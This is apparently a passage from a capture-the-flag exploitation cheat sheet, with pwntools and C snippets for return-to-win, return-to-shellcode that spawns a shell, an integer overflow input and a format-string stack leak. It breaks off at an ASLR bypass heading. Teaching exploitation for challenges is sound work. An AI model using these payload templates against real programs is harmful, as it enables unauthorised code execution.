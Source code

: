 ```python
win_function_addr = binary.symbols['win']
payload = b'A' * buffer_size + p32(win_function_addr)
```

## Return to Shellcode

### Real Implementation

Here, you will inject and execute your shellcode:

```python
shellcode = asm(shellcraft.i386.linux.sh())
padding = 90 # Depends on the buffer size and where you place the shellcode
payload = shellcode + b'A' * (padding - len(shellcode)) + p32(stack_address)
```

## Integer Overflow

### Real Implementation

In a challenge where an integer overflow leads to a vulnerability:

```c
unsigned int size;
if (size + 100 < 100) {
    // Vulnerable code
}
```

Craft an input that causes overflow:

```python
size = 0xFFFFFF9C # This value when added to 100, causes overflow
p.sendlineafter("Enter size: ", str(size))
```

## Format String Exploit

### Real Implementation

Exploiting a format string vulnerability in a function like `printf(user_input);`:

```python
payload = b"%10$s" # Reads the 10th value on the stack
p.sendline(payload)
```

## Bypassing Mitigations

### Real Implementation

For ASLR bypass:
